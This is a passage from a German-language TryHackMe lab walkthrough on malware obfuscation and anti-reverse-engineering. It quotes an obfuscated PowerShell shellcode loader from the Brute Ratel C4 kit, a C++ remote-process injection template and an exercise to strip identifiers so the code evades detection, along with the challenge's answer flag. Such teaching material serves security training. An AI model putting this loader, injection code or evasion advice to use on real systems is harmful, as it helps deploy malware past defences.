Als Beispiel für eine interpretierte Sprache können wir den veralteten [Badger PowerShell Loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit) aus dem [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) betrachten.
```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

Sie werden vielleicht bemerken, dass einige Cmdlets und Funktionen in ihrem Originalzustand belassen werden… warum ist das so? Abhängig von Ihren Zielen möchten Sie möglicherweise eine Anwendung erstellen, die Reverse Engineers auch nach der Erkennung noch verwirren kann, ohne sofort verdächtig zu wirken. Wenn ein Malware-Entwickler alle Cmdlets und Funktionen obfuskiert, würde dies die Entropie sowohl in interpretierten als auch in kompilierten Sprachen erhöhen und zu höheren EDR-Alarmwerten führen. Es könnte auch dazu führen, dass ein interpretierter Codeausschnitt in Logs verdächtig erscheint, wenn er scheinbar zufällig oder stark obfuskiert ist.

### Code-Struktur

Die Code-Struktur kann ein lästiges Problem sein, wenn es um alle Aspekte von bösartigem Code geht, die oft übersehen und nicht leicht identifiziert werden können. Wenn sie in interpretierten und kompilierten Sprachen nicht angemessen behandelt wird, kann dies zu Signaturen oder einfacheren Reverse Engineering durch einen Analysten führen.

Wie im oben genannten Taxonomie-Papier behandelt, werden **Junk-Code** und die **Neuanordnung** von Code häufig als zusätzliche Maßnahmen verwendet, um die Komplexität eines interpretierten Programms zu erhöhen. Da das Programm nicht kompiliert ist, hat ein Analyst viel tiefere Einblicke in das Programm, und wenn es nicht künstlich mit Komplexität aufgebläht wird, kann er sich auf die genauen bösartigen Funktionen einer Anwendung konzentrieren.

Die Trennung von verwandtem Code kann sowohl interpretierte als auch kompilierte Sprachen beeinflussen und zu verborgenen Signaturen führen, die schwer zu identifizieren sein können. Eine heuristische Signatur-Engine kann feststellen, ob ein Programm bösartig ist, basierend auf den umgebenden Funktionen oder API-Aufrufen. Um diese Signaturen zu umgehen, kann ein Angreifer das Vorkommen von verwandtem Code randomisieren, um die Engine zu täuschen und sie glauben zu machen, dass es sich um einen sicheren Aufruf oder eine sichere Funktion handelt.

### Datei- & Kompilationseigenschaften

Kleinere Aspekte eines kompilierten Binärdatei, wie die Kompilationsmethode, scheinen möglicherweise nicht wie eine kritische Komponente, können jedoch zu mehreren Vorteilen für einen Analysten führen. Zum Beispiel kann ein Analyst bei einem Programm, das als Debug-Build kompiliert wurde, alle verfügbaren globalen Variablen und andere Programminformationen erhalten.

Wenn ein Programm als Debug-Build kompiliert wird, wird der Compiler eine Symbolsdatei einschließen. Symbole helfen üblicherweise beim Debuggen eines Binärbildes und können globale und lokale Variablen, Funktionsnamen und Einstiegspunkte enthalten. Angreifer müssen sich dieser möglichen Probleme bewusst sein, um eine ordnungsgemäße Kompilationspraxis sicherzustellen und sicherzustellen, dass keine Informationen an einen Analysten durchsickern.

Glücklicherweise können Symbole durch den Compiler oder nach der Kompilierung leicht entfernt werden. Um Symbole aus einem Compiler wie Visual Studio zu entfernen, müssen wir das Kompilationsziel von `Debug` auf `Release` ändern oder einen leichtgewichtigeren Compiler wie **Mingw** verwenden.

Wenn wir Symbole aus einem vor-kompilierten Image entfernen müssen, können wir das Kommandozeilen-Dienstprogramm `strip` verwenden.

Das oben genannte Whitepaper [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3) fasst diese Praktiken gut unter der Methode des Entfernens redundanter Symbole der **Code-Element** Schicht zusammen.

Im Folgenden finden Sie ein Beispiel zur Verwendung von "strip", um die Symbole aus einem Binärprogramm zu entfernen, das mit **gcc** mit aktivierter Debugging-Option kompiliert wurde.

Bevor Sie ein Werkzeug aktiv verwenden, sollten mehrere andere Eigenschaften, wie Entropie oder Hash, in Betracht gezogen werden. Diese Konzepte werden in Aufgabe 5 des Raums zur [Signatur-Evasion](https://tryhackme.com/r/room/signatureevasion) behandelt.
##
Nutzen Sie das Wissen, das Sie während dieser Aufgabe erworben haben, um alle bedeutungsvollen Bezeichner oder Debug-Informationen aus dem folgenden C++-Quellcode mithilfe der AttackBox oder Ihrer eigenen virtuellen Maschine zu entfernen.

Nachdem Sie den Quellcode angemessen obfuskiert und die Symbole entfernt haben, kompilieren Sie ihn mit `MingW32-G++` und reichen Sie ihn auf dem Webserver unter `http://MACHINE_IP/` ein.

Hinweis: Der Dateiname muss `challenge-8.exe` lauten, um die Flagge zu erhalten.
```c++
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

## Fragen:
Welche Flagge wird nach dem Hochladen eines ordnungsgemäß obfuskierten Ausschnitts gefunden?
```
THM{Y0Ur_1NF0_15_M1N3}
```

# Task 9 - Abschluss
Verschleierung kann eines der profitabelsten Werkzeuge im Arsenal eines Angreifers sein, wenn es um Ausweichmanöver geht. Sowohl Angreifer als auch Verteidiger sollten sowohl die Verwendungen als auch die Auswirkungen von Verschleierung verstehen und bewerten.

In diesem Raum haben wir die Grundprinzipien der Verschleierung behandelt, sowohl im Zusammenhang mit der Umgehung von Signaturen als auch mit der Anti-Rückwärtsentwicklung.

Die Techniken, die in diesem Raum gezeigt wurden, sind im Allgemeinen werkzeugunabhängig und können auf viele Anwendungsfälle angewendet werden, da sowohl Werkzeuge als auch Verteidigungen sich entwickeln.

An dieser Stelle können Sie die Verschleierung weiterführen, indem Sie sich direkt auf die [Umgehung von Signaturen](https://tryhackme.com/r/room/signatureevasion) konzentrieren, wo sie direkt auf Signaturen angewendet wird, oder Sie können sie auf einer höheren Ebene mit Verschleierungsprogrammen verwenden.
